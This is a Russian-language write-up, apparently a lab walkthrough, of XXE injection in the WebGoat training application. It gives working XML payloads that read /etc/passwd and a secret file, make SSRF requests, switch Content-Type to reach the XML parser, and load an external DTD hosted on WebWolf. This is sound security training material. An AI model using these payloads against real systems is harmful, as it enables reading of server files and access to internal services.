# XXE

Внедрение внешнего объекта XML (также известное как XXE) — это уязвимость веб-безопасности, которая позволяет злоумышленнику вмешиваться в обработку XML-данных приложением. Это часто позволяет злоумышленнику просматривать файлы в файловой системе сервера приложений и взаимодействовать с любыми внутренними или внешними системами, к которым может получить доступ само приложение. В некоторых ситуациях злоумышленник может эскалировать атаку XXE, чтобы скомпрометировать базовый сервер или другую серверную инфраструктуру, используя уязвимость XXE для выполнения атак с подделкой запросов на стороне сервера (SSRF).

## Примеры

### Проверка на наличие уязвимости

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```


### Использование XXE для чтения файлов

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE author [
    <!ENTITY js SYSTEM "file:///etc/passwd">
]>
<author>&js;</author>
```

### Использование XXE для проведения SSRF запросов

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]> 
<author>&xxe;</author>
```

# База

1. Внимательно прочитайте первые три пункта проведения данной атаки



1. Отправим тестовый комментарий, чтобы проверить какой запрос отправляется





2. Замечаем, что отправляется XML документ. Попробуем применить тестовую нагрузку

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe "777"> ]>
<comment>
    <text>&xxe;</text>
</comment>
```



3. В результате комментарий имеет вид `777` - следовательно, уязвимость отработала



4. Попробуем прочитать `/etc/passwd` с помощью данной уязвимости

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
    <text>&xxe;</text>
</comment>
```




5. Видим, что атака отработала и мы смогли прочитать содержимое файла на удалённом сервере.
6. Прочитайте внимательно 5-6 пункт в уроке, чтобы узнать, как можно предотвратить данную атаку.
7. Посмотрим на формат запроса, который отправляется в 7 задании.



8. Видим, что отправляется `Content-Type: application/json`. В современном мире данные чаще всего и отправляются в формате JSON, однако, в больших системах очень часто стоит большое количество Middleware, которые умеют обрабатывать различные типы `Content-Type`. Поэтому можно попробовать исправить `Content-Type` на `application/xml` и отправить документ в новом формате.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe "777"> ]>
<comment>
    <text>&xxe;</text>
</comment>
```




9. XXE отработал, отправляем нагрузку из прошлого задания:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
    <text>&xxe;</text>
</comment>
```




10. Внимательно прочитайте пункты 8-10 из урока.
11. Последнее задание рассчитано на применение внешних DTD. Создаём внешний DTD файл и загружаем его на WebWolf
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY xxe SYSTEM "file:///home/webgoat/.webgoat-2025.3/XXE/useruser/secret.txt">
```



12. Теперь делаем запрос на скачивание внешнего DTD и его исполнение

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/WebWolf/files/useruser/new.dtd"> %remote; ]>
<comment>
    <text>Here is the secret - &xxe;</text>
</comment>
```




